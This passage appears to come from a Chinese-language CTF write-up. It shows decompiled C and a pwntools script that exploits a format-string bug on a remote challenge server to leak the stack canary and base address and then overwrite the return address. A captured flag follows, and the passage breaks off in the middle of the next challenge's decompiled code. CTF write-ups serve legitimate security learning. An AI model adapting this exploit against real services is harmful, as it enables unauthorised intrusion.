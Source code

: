 ```
    puts("Wrong!");
  }
  return __readgsdword(0x14u) ^ v9;
}
```
```py

from pwn import *
context.terminal=['bash']
#context.log_level='debug'
#p=process('./game')
p=remote('159.65.68.241',10002)
p.recvuntil('?')
p.sendline('%71$p'.ljust(250,b'\x00')+p32(0x365))
p.recvuntil(':\n')
canary=p.recvuntil('W')[:-1]
print('canary is '+ canary)
#gdb.attach(p)
#pause()
p.sendline('%3$p'.ljust(250,'\x00')+p32(0x19))
p.recvuntil(':\n')
base=p.recvuntil('W')[:-1]
print('base is '+ base)
p.sendline('\x00'*0x100+p32(int(canary,16))+'A'*12+p32(int(base[:-3]+'2f5',16)))
p.interactive()
```
flag{15c36180-35bf-47af-87d9-6bcde64ff6b2}

## pubg cheating tools
程序有两个选项，一个是买，一个是激活，买没什么用处，只有一句`puts("send 2 BTC wallet 114514, and you'll get the download url");`
![pubg](2019-02-24-04-50-03.png)
激活的逻辑是,判断是否存在key.txt，不存在则从`/dev/urandom`读取16字节并写入
```c
int sub_401E99()
{
  int days; // [rsp+Ch] [rbp-D4h]
  char buf; // [rsp+10h] [rbp-D0h]
  char v3; // [rsp+20h] [rbp-C0h]
  char ptr; // [rsp+90h] [rbp-50h]
  char v5; // [rsp+A0h] [rbp-40h]
  FILE *stream; // [rsp+D0h] [rbp-10h]
  FILE *s; // [rsp+D8h] [rbp-8h]

  s = fopen("./key.txt", "r");
  if ( s )
  {
    fclose(s);
  }
  else
  {
```